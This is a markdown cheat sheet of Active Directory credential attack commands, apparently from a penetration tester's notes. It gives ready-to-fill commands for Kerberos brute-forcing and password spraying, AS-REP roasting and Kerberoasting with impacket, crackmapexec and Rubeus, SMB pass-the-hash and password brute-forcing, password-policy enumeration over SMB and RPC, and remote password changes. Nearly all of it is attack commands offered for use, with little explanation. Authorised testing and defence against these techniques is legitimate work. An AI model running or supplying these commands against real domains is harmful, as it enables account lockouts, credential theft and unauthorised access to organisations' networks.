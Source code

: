 # Passwords & Policy
## Kerberos
Brute-forcing - WILL LOCKOUT USER
`kerbrute bruteuser --dc <IP> -d <DOMAIN> <PASSLIST> <USER>`
`kerbrute passwordspray --dc <IP> -d <DOMAIN> -v <USERLIST> <PASS>`

AS-REP Roasting:
`impacket-GetNPUsers -dc-ip <IP> <DOMAIN>/ -usersfile <USERLIST>` remote
`impacket-GetNPUsers -dc-ip <IP> <DOMAIN>/<USER>:<PASS> -request` remote
`crackmapexec ldap <IP> --kdcHost <IP> -u <USER> -p <PASS> --asreproast <OUTPUT>` remote
`Rubeus.exe asreproast /format:hashcat /nowrap` local

Kerberoasting:
`impacket-GetUserSPNs -dc-ip <IP> <DOMAIN>/<USER>:<PASS> -request` remote
`crackmapexec ldap <IP> --kdcHost <IP> -u <USER> -p <PASS> --kerberoasting <OUTPUT>` remote
`setspn -T medin -Q */*` local

## SMB & NetBIOS
Brute-forcing:
`crackmapexec smb <IP> -u <USER> -H <HASHES>`
`crackmapexec smb <IP> -u <USER> -p <PASSLIST>`

Password policy:
`polenum -u <USER> -p <PASS> -d <IP>`
`crackmapexec smb <IP> -u <USER> -p <PASS> --pass-pol`

Change users password:
`smbpasswd -U <USER> -r <IP>`

## RPC
Password policy:
`rpcclient -U '<USER>%<PASS>' <IP> -c 'getdompwinfo'` (domain info)
`rpcclient -U '<USER>%<PASS>' <IP> -c 'getusrdompwinfo'` (user info)
